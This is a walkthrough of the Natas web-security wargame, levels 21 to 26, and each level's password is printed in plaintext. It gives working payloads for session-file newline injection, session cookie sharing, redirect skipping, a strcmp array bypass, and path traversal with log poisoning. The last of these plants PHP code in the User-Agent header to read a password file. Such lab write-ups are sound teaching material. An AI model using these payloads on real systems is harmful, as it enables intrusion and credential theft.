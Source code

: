 ```yaml
---
layout: post
title: "Natas wargame walkthrough, levels 21-X"
---
```


## 21

This level contains more source code than we've seen before. Looking through
it, we see functions for reading and writing session data. When we visit the
site for the first time, we're given a cookie with a session id, `PHPSESSID`.
When we enter a username, that username is stored in a file,
`mysess_<session id>`. When we revisit the site, that file is checked, to see if
the user is an admin (denoted by an `admin 1` row). We can trick the server into
thinking we are an admin by passing the username `user\nadmin 1`. This creates
the session file:

```
name: user
admin 1
```

We can create this username by hitting the URL with the following query string:

```
?debug=true&name=james%0Aadmin+1
```

`IFekPyrQXftziDEsUr3x21sYuahypdgJ`

## 22

This level is similar to [21](#21), but there are two different websites. The
two are colocated, and share a session file. The first displays the password if
the session key `admin = 1`. The second gives us a way to insert data into the
session file, by hitting the url with the query:

```
?debug=true&submit=true&admin=1
```

We note the value of the `PHPSESSID` on the second site, change the cookie to
the same value on the first site, and refresh to get the password.

`chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ`

## 23

Looking at the source of this level, we see that the password is shown if the
key `revelio=true` is present in the GET request. However, if that key is
present, the server also sets the Location header to `/`, redirecting the
browser back to the home page. We can get around this by making a request to the
URL with the `revelio` key set, but not honouring the redirect:

```python
# -*- coding: utf-8 -*-

import requests

r = requests.get(
    "http://natas22.natas.labs.overthewire.org?revelio=true",
    auth=("natas22", "chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ"),
    allow_redirects=False)

print r.text
```

`D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE`

## 24

This level presents a password box to the user. If the correct password is
entered, the password to the next level will be displayed.

This source gives us:

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

We can see that we're looking for a password which contains `iloveyou`, and is
longer than ten characters.

I first tried `abciloveyou`, which didn't work, even though it should pass
both conditions of the `if` statement. I saw the comment `10111`, and tried
the password `10111iloveyou`, which worked.

`OsRmXFguozKpTZZ5X14zNO43379LZveg`

## 25

This is similar to [24](#24), but the password is printed if:

```php
<?php
!strcmp($_REQUEST["passwd"],"<censored>")
```

`strcmp` has a vulnerability. If one of the parameters passed to it isn't a
string, it will throw an exception and return 0, which will pass the `if`
expression test and show us the password. `PHP` converts query parameters in
the format `?key[]=value0,value1` to an array. We can therefore pass an array
to `strcmp` with:

```
?passwd[]=0
```

This prints out the password

`GHF6X7YwACaYYssHVY05cFq83hRktl4c`

## 26

Level 26 requires making use of three different vulnerabilities. The web request
can be passed a `lang` parameter, from which a file path is constructed, and
used to `include` the file. The user defined `lang` value is checked and
sanitised:

```php
<?php
if(strstr($filename,"../")){
    logRequest("Directory traversal attempt! fixing request.");
    $filename=str_replace("../","",$filename);
}
if(strstr($filename,"natas_webpass")){
    logRequest("Illegal file access detected! Aborting!");
    exit(-1);
}
```

Notice that the first `if` statment removes the string `../` if it is found,
but still passes the filename on. We can work around this by passing the string
`..././`, which becomes `../` when the central `../` is removed.

The function `logRequest` writes details about the bad request to a file:

```php
<?php
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n";
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```

This gives us two new points of entry: we can set the `User-Agent` header on
our request to change the value of `$_SERVER['HTTP_USER_AGENT']`, and we can
change our `PHPSESSID` cookie to change the value of `session_id()`.

We can set the `User-Agent` header to:

```php
<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>
```

Set the `PHPSESSID` cookie to `0`, and make a request with the query string:

```
?lang=..././..././..././..././..././var/www/natas/natas25/logs/natas25_1.log
```

This `include`s the log file, running the PHP code which prints out the
password.

`oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`
